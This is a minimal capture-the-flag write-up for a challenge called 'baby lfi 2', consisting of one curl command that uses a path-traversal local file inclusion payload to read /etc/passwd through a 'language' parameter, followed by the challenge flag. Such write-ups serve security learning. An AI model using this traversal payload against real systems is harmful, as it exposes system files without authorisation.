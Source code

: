 # baby lfi 2

## Write-up

```bash
curl -v '[DOMAIN]?language=./languages/../../../../etc/passwd'
```

## Flag

`srm{yOU_M4De_yOUr_waY_7hRough_iT}`
